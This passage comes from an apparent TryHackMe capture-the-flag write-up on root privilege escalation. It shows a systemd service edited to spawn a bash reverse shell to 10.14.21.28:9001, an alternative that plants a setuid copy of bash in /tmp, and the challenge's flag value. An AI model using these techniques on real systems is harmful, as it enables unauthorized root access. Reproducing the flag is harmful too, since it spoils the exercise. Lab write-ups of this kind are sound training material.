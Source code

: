 ```
sudoedit /etc/systemd/system/duckyinc.service
```

Now, we can either modify the service to spawn a reverse shell or a shell directly:

```
ExecStart=/bin/bash -i >& /dev/tcp/10.14.21.28/9001 0>&1
```

Or:

```
ExecStart=/bin/bash /tmp/shell.sh
```

We need to modify the file in the following way:

```
[Unit]
Description=Gunicorn instance to serve DuckyInc Webapp
After=network.target

[Service]
User=root
Group=root
WorkingDirectory=/var/www/duckyinc
ExecStart=/bin/bash -i >& /dev/tcp/IP/9001 0>&1
ExecReload=/bin/kill -s HUP $MAINPID
ExecStop=/bin/kill -s TERM $MAINPID

[Install]
WantedBy=multi-user.target
```

If we follow the direct shell path, we need to create a file with the following contents:

```bash
cp /bin/bash /tmp/sh
chmod +s /tmp/sh
```

Now, let's restart the service:

```
sudo /bin/systemctl daemon-reload
sudo /bin/systemctl restart duckyinc.service
```

If we check `/tmp` directory:

![](gitbook/cybersecurity/images/Pasted%20image%2020250609142735.png) As seen, we got the `sh` binary, let's run it to get a root shell:

![](gitbook/cybersecurity/images/Pasted%20image%2020250609142853.png)

Now, let's get second flag and root flag:

```
sh-4.4# cat /home/server-admin/flag2.txt
thm{4lm0st_th3re}
```
